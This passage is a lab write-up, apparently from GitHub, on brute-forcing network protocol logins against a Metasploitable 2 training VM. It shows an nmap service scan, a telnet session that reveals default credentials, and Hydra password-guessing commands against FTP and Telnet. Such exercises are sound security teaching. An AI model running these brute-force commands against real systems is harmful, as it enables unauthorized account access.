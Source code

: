 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective
The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. Will also analyze the security of these protocols and propose mitigation strategies.

---

## 🛠️ Tools Used

- Kali Linux
- Metasploitable 2
- Nmap
- Hydra

---

## 🔍 Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
- Document the usernames found.

#### 🔧 Steps Taken:

- Performed a port scan using Nmap:
  ```
  nmap -sV -p 21,23,22,80 [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/2c34570b-4073-4b21-82e7-e24b5da34909)

- Connected manually to Telnet to observe any information:
  ```
  telnet [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/3c80d78e-9904-4c9d-a4ab-e29bcb667df0)
  > Here we got the username and password: ```msfadmin:msfadmin```. Bear in mind, we often do not get the credentials as easily as this.


---
### 2.  Perform Brute Force Attacks
#### 2.1. FTP, TELNET, and SSH
- Use Hydra perform brute force attacks against the following protocols:
- FTP
  ```
  hydra -L rockyou.txt -P rockyou.txt ftp://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/136b15fc-d644-4f87-b0c3-ba123adb8c57)
  
- TELNET
  ```
  hydra -L rockyou.txt -P rockyou.txt telnet://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/5ba8dca6-6fd2-48b3-86a8-adedb3d78b46)



